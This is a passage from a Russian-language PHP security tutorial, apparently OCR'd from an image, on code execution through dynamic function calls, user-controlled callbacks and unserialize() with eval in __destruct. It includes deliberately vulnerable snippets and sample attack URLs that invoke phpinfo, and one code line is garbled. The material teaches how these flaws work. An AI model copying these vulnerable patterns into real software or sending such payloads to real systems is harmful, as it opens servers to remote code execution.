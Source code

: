 ```php
<?php
    $foobar = "phpinfo";
    ${"foobar"}();
?>
```

### Функция обратного вызова

Многие функции могут выполнять функции обратного вызова, что вызовет выполнение кода, когда функция обратного вызова
управляется пользователем.

```php
<?php
    $evil_callback = $_GET["callback"];
    $some_array = array(0,1,2,3);
    $new_array = array_map($evil_callback, $some_array);
?>
```

Полезная нагрузка атаки

```text
http://www.a.com/index.php?callback=phpinfo
```

### Десериализация

Если `unserialize()` определяет функцию `__destruct()` или `__wakeup()` во время выполнения, это может вызвать
выполнение кода.

```php
<?php
    class Example {
    was $var = "";
      function __destruct() {
        eval($this->var);
      }
    }
    unserialize($_GET["saved_code"]);
?>
```

Полезная нагрузка атаки

```text
http://www.a.com/index.php?saved_code=O:7:"Example":1:{s:3:"var";s:10:"phpinfo();";}
```

## PHP особенности

### Массив

```php
<?php
    $var = 1;
    $var = array();
    $var = "string";
?>
```
